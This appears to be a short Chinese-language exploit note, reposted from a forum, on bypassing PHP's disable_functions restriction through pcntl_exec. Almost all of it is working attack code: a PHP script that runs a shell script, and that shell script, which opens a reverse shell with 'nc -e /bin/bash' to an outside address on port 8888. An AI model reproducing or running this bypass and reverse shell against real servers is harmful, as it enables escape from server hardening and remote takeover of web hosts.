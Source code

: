 # 利用 pcntl_exec 绕过

> 原文：[https://www.zhihuifly.com/t/topic/3466](https://www.zhihuifly.com/t/topic/3466)

## ***利用 pcntl_exec 绕过***

**1\. 前提条件**

PHP安装并启用了pcntl插件

**2\. 基本原理**

利用pcntl_exec()这个pcntl插件专有的命令执行函数来执行系统命令，从而绕过disable_functions

**3\. exp**

> exp.php

```
#利用pcntl_exec()执行test.sh
<?php
if(function_exists('pcntl_exec')) {
  pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
    echo 'pcntl extension is not support!';
}
?> 
```

> test.sh

```
#!/bin/bash
nc -e /bin/bash 1.1.1.1 8888    #反弹shell 
```
